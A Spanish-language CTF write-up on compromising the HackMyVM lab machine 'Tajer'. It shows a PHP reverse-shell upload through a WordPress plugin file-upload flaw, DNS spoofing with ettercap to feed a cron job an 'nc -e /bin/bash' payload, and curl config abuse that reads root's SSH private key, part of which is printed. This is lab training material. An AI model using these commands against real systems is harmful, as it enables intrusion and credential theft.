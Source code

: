 ```yaml
---
layout: post
title: Tajer - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Avijneyam \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/tajer/tajer.png)

## Enumeración

Como es costumbre, comienzo con una enumeración de puertos utilizando **nmap**.

```
h3rshel@kali:~/Desktop$ sudo nmap -p- 192.168.1.66  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 13:02 CEST
Nmap scan report for tajer.wordpress.hmv (192.168.1.66)
Host is up (0.00014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Después de un largo rato y muchas pruebas, pruebo a analizar dominios y subdominios relacionados con **hackmyvm**, **hmv** y **tajer**.

```
h3rshel@kali:~$ ffuf -u http://192.168.1.66 -H "Host: tajer.FUZZ.hmv" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 612

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.66
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: tajer.FUZZ.hmv
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 612
________________________________________________

[Status: 200, Size: 57682, Words: 2445, Lines: 287, Duration: 185ms]
    * FUZZ: wordpress
[...]
```

Aparece el dominio **tajer.wordpress.hmv**.

### Wpscan

Utilizo wpscan para continuar con la enumeración ya que se trata de un blog de wordpress.

```
h3rshel@kali:~/Desktop$ wpscan --url http://tajer.wordpress.hmv/ --api-token [api-token] -e
[...]
[+] tajer
 | Location: http://tajer.wordpress.hmv/wp-content/plugins/tajer/
 | Latest Version: 1.0.5 (up to date)
 | Last Updated: 2016-06-03T18:02:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Tajer - Unauthenticated Arbitrary File Upload
 |     References:
 |      - https://wpscan.com/vulnerability/655bc140-5bbf-4a7e-b20d-4343a75c0c67
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9206
 |      - http://www.vapidlabs.com/advisory.php?v=205
 |
 | Version: 1.0.5 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tajer.wordpress.hmv/wp-content/plugins/tajer/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tajer.wordpress.hmv/wp-content/plugins/tajer/readme.txt
[...]
```

Encuentro una vulnerabilidad **arbitrary file upload**, que me permite subir una shell.

## Explotación

Creo un listener utiliznado **nc -lvnp 1234**.

Ahora toca subir la shell y ejecutarla.

```
h3rshel@kali:~/Desktop/tools$ curl -F "files=@rev_shell.php" http://tajer.wordpress.hmv/wp-content/plugins/tajer/lib/jQuery-File-Upload-master/server/php/index.php

h3rshel@kali:~/Desktop/tools$ curl http://tajer.wordpress.hmv/wp-content/plugins/tajer/lib/jQuery-File-Upload-master/server/php/files/rev_shell.php
```

Y obtengo sesión como **www-data**.

## Escalado de privilegios

Utilizo **pspy64** en busca de procesos ejecutandose en el background.

```
timeout 3m ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

[...]
2023/09/01 05:39:01 CMD: UID=1001  PID=1405   | /bin/sh -c /usr/bin/bash -c '/usr/bin/bash < <(/usr/bin/curl -s http://password.wordpress.hmv/k3vin)'
```

Se está ejecutando un script que hace una petición a **password.wordpress.hmv** y ejecuta el fichero **k3vin**.

Para este paso he utilizado **ettercap** para realizar dnsspoofing.

Dejo un enlace con una guia paso a paso para realizarlo: [dnsspoofing](https://cibersec.iescampanillas.com/archivos/3671)

Modifico "/etc/ettercap/etter.dns".

```
h3rshel@kali:~/Desktop/test$ tail -n 4 /etc/ettercap/etter.dns

# vim:ts=8:noexpandtab
#
password.wordpress.hmv  A       192.168.1.20
```

Creo el script a ejecutar con una reverse shell.

```
h3rshel@kali:~/Desktop/test$ cat k3vin     
nc -e /bin/bash 192.168.1.20 4444
```

Recibo la conexión.

```
h3rshel@kali:~/Desktop$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [192.168.1.20] from (UNKNOWN) [192.168.1.66] 36786
id
uid=1001(kevin) gid=1001(kevin) groups=1001(kevin)
```

Encuentro el directorio "/opt/scripts" con dos ficheros.

```
kevin@tajer:/opt/scripts$ ls -la
total 16
drwxr-xr-x 2 root root  4096 Apr  1  2022 .
drwxrwxrwx 4 root root  4096 Apr  1  2022 ..
-rw-r--r-- 1 root root   886 Apr  1  2022 code
-r-x------ 1 root kevin  677 Apr  1  2022 curl.py
kevin@tajer:/opt/scripts$ file code
code: python 2.7 byte-compiled
```

**curl.py** no lo puedo leer pero deber ser el script que ejecutaba "password.wordpress.hmv/k3vin".

El archivo **code** es un ejecutable compilado de python 2.7. Lo llevo a mi máquina kali y lo abro con **cutter**.

![img](/imgs/write-ups/hackmyvm/tajer/tajer_1.png)

Se puede ver que el programa abre un archivo llamado **input.txt** dentro de "/opt/kevin"

Creo el archivo y le doy una entrada.
 
```
kevin@tajer:/tmp$ echo "0xH3rshel" > /opt/kevin/input.txt
```

Ejecuto nuevamente **pspy64** para ver si algo ha cambiando.

```
kevin@tajer:/tmp$ ./pspy64
[...]
2023/09/01 06:37:01 CMD: UID=0     PID=2208   | sh -c /bin/bash -c 'curl -o /tmp/result_06_37_01 -K 0xH3rshel'
```

Ahora hay un nuevo script ejecutandose.

La opcion "-K" de curl sirve para indicar un archivo de configuración, por lo que modifico "input.txt" para que sea una ruta a un fichero válido. A continuación creo el archivo de configuración indicando como url el archivo "id_rsa" del usuario root.

```
kevin@tajer:/opt/kevin$ cat input.txt 
/tmp/0xH3rshel
kevin@tajer:/tmp$ cat 0xH3rshel 
url = file:///root/.ssh/id_rsa
```

Al cabo de un poco, veo que se ha creado en "/tmp" un fichero "result_*" que contiene la clave privada del usuario root.

```
kevin@tajer:/tmp$ cat result_06_42_01 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs9pLCYq5/lSuraQbmqHsZzj/2C4zB8bQOch55wOfeX3mUgH3L4S7
Nr4fEFUzWTWTke2HVwIl+7x1GODlQfGxpN8TA+kZ4B5OVDLDzjdOLMBMaBpAbeehbdDK52
HtjYLRsQp5dCCkBHl0TkEA1CgPHaPZwdHvkU3f/Syt8wN8TIFm0bOWLR3fG7mrVn+dvUv1
tpPKbNbEU3hadszcKuYl2N/Oht2OeWDrZYa+N4ETpTXCZ1mG1z1mRb9oY5u7tfPL9VemyP
TqEFpjh24miUXCn63w58Uw+wB5OvOuWAMM1fLBiDrdiV+TLzQznw7ocdg3eYG93+tp1WFf
6uHCNKasQYrRQrjPGEqloxYJTqD7DRmwRWTtRDPLFDlkZAT1c89UnnOOZ1whOD3j9gU6t9
1majHKG0aL7ERIWI/2yeksZdaop81CoT9p68cIrtJoze68F0j7rFwPgxJ8F2OtO+YoJJkj
4bo044EGYEOcYogVxoVqdhpvj18ywCgBncIIT9y9AAAFiArlGZoK5RmaAAAAB3NzaC1yc2
[...]
```

Ahora solo queda utilizarla para iniciar sesión.

```
kevin@tajer:/tmp$ cat result_06_42_01 > root_rsa
kevin@tajer:/tmp$ chmod 600 root_rsa 
kevin@tajer:/tmp$ ssh root@localhost -i root_rsa 
[...]
Last login: Fri Apr  1 13:51:42 2022
root@tajer:~# :)
```

Muchas gracias a **Avijneyam** por esta máquina.

